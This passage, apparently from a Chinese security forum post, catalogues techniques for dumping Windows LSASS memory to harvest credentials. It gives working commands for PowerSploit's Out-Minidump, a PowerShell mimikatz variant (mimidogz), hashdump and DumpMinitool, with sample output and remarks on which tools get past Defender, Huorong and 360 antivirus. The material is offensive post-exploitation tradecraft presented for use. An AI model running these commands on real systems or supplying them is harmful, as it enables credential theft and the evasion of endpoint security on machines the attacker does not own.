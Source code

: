 ![image-20220326113128285](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-f861dedb9a4b4e4729f2072d9cf4ab14b95733ee.png)

createdump.exe
--------------

已失效

`createdump.exe`它是随着.NET5出现的，拥有微软签名

![image-20220420195128063](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-23a776a6143e3c46bba571798ec65bb6f9e9a930.png)

PowerSploit 中的`Out-MiniDump.ps1`脚本
----------------------------------

我们可以选择创建进程的完整内存转储。

会被defender拦截，Bypass 火绒、360

导入

```php
Import-Module .\Out-Minidump.ps1
```

执行

```php
Get-Process lsass | Out-Minidump
```

![image-20220326113441961](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-97356aa11d5922b2576ef1dbd02c706551dde7fd.png)

hashdump脚本
----------

注：cmd或者双击 `hashdumpX64.exe` 只会生成一个0kb的lsass.dmp，需要通过Powershell执行

mimidogz(ps版mimikatz)
---------------------

已失效

项目地址：<https://github.com/fir3d0g/mimidogz>

下载后在目录中执行：

```php
Import-Module .\Invoke-Mimidogz.ps1
invoke-mimidogz
```

<https://t.co/pNGsLlx6Al>

```php
./DumpMinitool.exe 1 'dump6.txt' 2 660 3 Full
Dump minitool: Started with arguments 1 dump6.txt 2 660 3 Full
Output file: 'dump6.txt'
Process id: 660
Dump type: Full
Dumped process.
```
